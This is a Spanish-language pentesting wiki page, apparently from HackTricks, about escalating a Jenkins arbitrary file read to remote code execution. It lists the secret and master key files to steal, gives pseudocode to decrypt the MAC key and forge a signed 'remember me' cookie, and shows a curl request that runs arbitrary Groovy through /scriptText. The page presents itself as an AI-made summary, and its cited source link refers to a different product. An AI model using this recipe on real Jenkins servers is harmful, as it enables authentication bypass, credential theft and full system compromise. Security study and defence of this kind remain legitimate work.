 # Jenkins Lectura Arbitraria de Archivos a RCE a través de "Recordarme"

{{#include ../../banners/hacktricks-training.md}}

En esta publicación de blog es posible encontrar una gran manera de transformar una vulnerabilidad de Inclusión de Archivos Local en Jenkins en RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Este es un resumen creado por IA de la parte de la publicación donde se abusa de la creación de una cookie arbitraria para obtener RCE abusando de una lectura de archivos locales hasta que tenga tiempo de crear un resumen por mi cuenta:

### Prerrequisitos del Ataque

- **Requisito de Función:** "Recordarme" debe estar habilitado (configuración predeterminada).
- **Niveles de Acceso:** El atacante necesita permisos de Lectura/General.
- **Acceso Secreto:** Capacidad para leer tanto contenido binario como textual de archivos clave.

### Proceso de Explotación Detallado

#### Paso 1: Recolección de Datos

**Recuperación de Información del Usuario**

- Acceder a la configuración del usuario y secretos desde `$JENKINS_HOME/users/*.xml` para cada usuario para recopilar:
- **Nombre de Usuario**
- **Semilla del Usuario**
- **Marca de Tiempo**
- **Hash de Contraseña**

**Extracción de Claves Secretas**

- Extraer claves criptográficas utilizadas para firmar la cookie:
- **Clave Secreta:** `$JENKINS_HOME/secret.key`
- **Clave Maestra:** `$JENKINS_HOME/secrets/master.key`
- **Archivo de Clave MAC:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Paso 2: Forja de Cookies

**Preparación del Token**

- **Calcular Tiempo de Expiración del Token:**

```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000 // Agrega una hora al tiempo actual
```

- **Concatenar Datos para el Token:**

```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```

**Desencriptación de la Clave MAC**

- **Desencriptar Archivo de Clave MAC:**

```javascript
key = toAes128Key(masterKey)  // Convertir clave maestra a formato de clave AES128
decrypted = AES.decrypt(macFile, key)  // Desencriptar el archivo .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Cálculo de la Firma**

- **Calcular HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey) // Calcular HMAC usando el token y la clave MAC
tokenSignature = bytesToHexString(mac) // Convertir el MAC a una cadena hexadecimal
```

**Codificación de la Cookie**

- **Generar Cookie Final:**

```javascript
cookie = base64.encode(
username + ":" + tokenExpiryTime + ":" + tokenSignature
) // Codificar en Base64 los datos de la cookie
```

#### Paso 3: Ejecución de Código

**Autenticación de Sesión**

- **Obtener Tokens CSRF y de Sesión:**
- Hacer una solicitud a `/crumbIssuer/api/json` para obtener `Jenkins-Crumb`.
- Capturar `JSESSIONID` de la respuesta, que se utilizará junto con la cookie de recordar-me.

**Solicitud de Ejecución de Comando**

- **Enviar una Solicitud POST con Script Groovy:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

- El script Groovy se puede utilizar para ejecutar comandos a nivel de sistema u otras operaciones dentro del entorno de Jenkins.

El comando curl de ejemplo proporcionado demuestra cómo hacer una solicitud a Jenkins con los encabezados y cookies necesarios para ejecutar código arbitrario de manera segura.

{{#include ../../banners/hacktricks-training.md}}
